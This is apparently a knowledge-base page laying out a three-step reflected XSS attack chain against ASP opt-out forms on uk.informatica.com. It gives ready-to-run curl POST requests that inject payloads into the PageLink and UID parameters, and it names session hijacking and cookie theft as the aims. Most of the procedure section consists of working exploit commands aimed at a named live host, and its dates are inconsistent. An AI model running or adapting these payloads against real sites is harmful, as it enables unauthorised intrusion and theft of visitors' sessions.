

---
tags:
  - xss
  - reflected-xss
  - javascript
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-exploit-xss-pagelink-informatica]]'
  - '[[commands/curl-exploit-xss-uid-informatica]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-XSS-Parameters-in-ASP-Endpoints]]'
  - '[[procedures/Exploit-Reflected-XSS-in-PageLink-Parameter]]'
  - '[[procedures/Exploit-Reflected-XSS-in-UID-Parameter]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
description: >-
  A multi-step attack chain exploiting reflected XSS vulnerabilities in ASP
  endpoints on uk.informatica.com to execute arbitrary JavaScript in victims'
  browsers.
skill_level: intermediate
impact_level: high
id: 23d563f4-c5d1-4113-8795-4c96880a8203
created_at: '2025-12-14T03:46:31.752Z'
updated_at: '2025-12-14T03:46:31.752Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation in Informatica Opt-Out Forms

## Overview

This attack chain demonstrates the exploitation of reflected Cross-Site Scripting (XSS) vulnerabilities in two ASP endpoints (/o/Default.asp and /r/Default.asp) on uk.informatica.com. The vulnerabilities arise from insufficient sanitization of POST parameters like PageLink, ResponseHandlingLanguage, and UID in opt-out forms. Attackers can inject malicious JavaScript payloads that reflect back in the response, executing in the victim's browser. This enables session hijacking, cookie theft, or phishing attacks. The chain starts with identifying injectable parameters and progresses to targeted exploitation, achieving arbitrary script execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform on port 80
- ASP-based web application
- Network access to uk.informatica.com

### Initial Access Requirements

- No credentials required
- Direct HTTP access to the target
- Browser for verifying script execution

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoints
procedure: [[procedures/Identify-Vulnerable-XSS-Parameters-in-ASP-Endpoints]]

**Objective**: Examine POST requests to /o/Default.asp and /r/Default.asp to identify unsanitized parameters like PageLink, ResponseHandlingLanguage, and UID that allow XSS payload injection.

**Instructions**: Intercept and analyze opt-out form submissions using a proxy tool. Test parameters by appending common XSS payloads and observe if they reflect unsanitized in the response.

**Expected Output**: Confirmation of reflection without escaping, e.g., payload appears in HTML as-is.

**Success Indicators**:
- Parameters identified as injectable
- Basic payload like <script>alert(1)</script> reflects

### Step 2: Exploit PageLink Parameter
procedure: [[procedures/Exploit-Reflected-XSS-in-PageLink-Parameter]]

**Objective**: Inject a malicious payload into the PageLink parameter of /o/Default.asp to trigger JavaScript execution via expression() in IE-compatible contexts.

**Instructions**: Craft a POST request to the opt-out form, modifying PageLink with the payload. Use [[commands/curl-exploit-xss-pagelink-informatica]] to send the request:

```bash
curl -X POST http://uk.informatica.com/o/Default.asp \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://uk.informatica.com:80/" \
  -H "Cookie: eu=; ASPSESSIONIDQCABSAAR=DMLJGLOADMFJNAEMPHCPLBMG; Lang=ResponseHandlingLanguage=British" \
  -d "OPTOUT=Submit&DMAILX=true&EMAIL=sample%40email.tst&EMAILX=true&EVENTS_DMAIL=TRUE&EVENTS_EMAIL=TRUE&EVENTS_PHONE=TRUE&NAME=&NEWSLETTERS_DMAIL=TRUE&NEWSLETTERS_EMAIL=TRUE&NEW_PRODUCT_DMAIL=TRUE&NEW_PRODUCT_EMAIL=TRUE&NEW_PRODUCT_PHONE=TRUE&OptOutForm=OptOutForm&PageLink=1\" style=\"width:expression(prompt(1));&PHONEX=true&PRODUCT_UPDATE_DMAIL=TRUE&PRODUCT_UPDATE_EMAIL=TRUE&PRODUCT_UPDATE_PHONE=TRUE&PROMOTIONS_DMAIL=TRUE&PROMOTIONS_EMAIL=TRUE&PROMOTIONS_PHONE=TRUE&ResponseHandlingLanguage=British&SURNAME=&TITLE=&TRAINING_DMAIL=TRUE&TRAINING_EMAIL=TRUE&TRAINING_PHONE=TRUE&UID=&USERGROUPS_DMAIL=TRUE&USERGROUPS_EMAIL=TRUE&USERGROUPS_PHONE=TRUE&WEBINAR_DMAIL=TRUE&WEBINAR_EMAIL=TRUE&WEBINAR_PHONE=TRUE&WHITEPAPERS_DMAIL=TRUE&WHITEPAPERS_EMAIL=TRUE&WHITEPAPERS_PHONE=TRUE"
```

View the response in a browser to confirm execution.

**Expected Output**: JavaScript prompt(1) box appears in the browser.

**Success Indicators**:
- Payload reflected and executed
- No sanitization errors

### Step 3: Exploit UID Parameter
procedure: [[procedures/Exploit-Reflected-XSS-in-UID-Parameter]]

**Objective**: Inject a script tag into the UID parameter of /r/Default.asp to break out of HTML context and execute arbitrary JavaScript.

**Instructions**: Send a POST request similar to the opt-out form, targeting UID. Execute [[commands/curl-exploit-xss-uid-informatica]]:

```bash
curl -X POST http://uk.informatica.com/r/Default.asp \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://uk.informatica.com:80/" \
  -H "Cookie: eu=; ASPSESSIONIDQCABSAAR=DMLJGLOADMFJNAEMPHCPLBMG; Lang=ResponseHandlingLanguage=British" \
  -d "OPTOUT=Submit&DMAILX=true&EMAIL=sample%40email.tst&EMAILX=true&EVENTS_DMAIL=TRUE&EVENTS_EMAIL=TRUE&EVENTS_PHONE=TRUE&NAME=&NEWSLETTERS_DMAIL=TRUE&NEWSLETTERS_EMAIL=TRUE&NEW_PRODUCT_DMAIL=TRUE&NEW_PRODUCT_EMAIL=TRUE&NEW_PRODUCT_PHONE=TRUE&OptOutForm=OptOutForm&PageLink=1&PHONEX=true&PRODUCT_UPDATE_DMAIL=TRUE&PRODUCT_UPDATE_EMAIL=TRUE&PRODUCT_UPDATE_PHONE=TRUE&PROMOTIONS_DMAIL=TRUE&PROMOTIONS_EMAIL=TRUE&PROMOTIONS_PHONE=TRUE&ResponseHandlingLanguage=British&SURNAME=&TITLE=&TRAINING_DMAIL=TRUE&TRAINING_EMAIL=TRUE&TRAINING_PHONE=TRUE&UID=\"><script>prompt(1)</script>&USERGROUPS_DMAIL=TRUE&USERGROUPS_EMAIL=TRUE&USERGROUPS_PHONE=TRUE&WEBINAR_DMAIL=TRUE&WEBINAR_EMAIL=TRUE&WEBINAR_PHONE=TRUE&WHITEPAPERS_DMAIL=TRUE&WHITEPAPERS_EMAIL=TRUE&WHITEPAPERS_PHONE=TRUE"
```

Load the response in a browser to verify.

**Expected Output**: JavaScript prompt(1) executes upon page load.

**Success Indicators**:
- Script tag breaks out and runs
- Arbitrary code execution confirmed

## Attack Chain Summary

### Key Achievements

1. Identified multiple injectable parameters in ASP opt-out forms
2. Exploited PageLink for expression-based XSS
3. Exploited UID for script tag-based XSS, enabling data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
